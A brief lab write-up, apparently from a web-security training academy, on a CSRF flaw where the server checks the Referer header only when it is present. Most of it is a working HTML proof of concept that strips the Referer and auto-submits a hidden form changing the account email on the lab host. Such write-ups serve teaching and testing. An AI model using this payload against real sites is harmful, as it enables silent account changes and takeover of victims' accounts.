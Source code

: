 # Lab: CSRF where Referer validation depends on header being present

- The application is using HTTP `Referer` header as a `CSRF` defense mechanism.
- The defense mechanism fails when `Referer` header is not present in the request.
-  Exploit ->

```html
<html>
  <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac9c1f3e1fb9a17fc0180bfe00950041.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

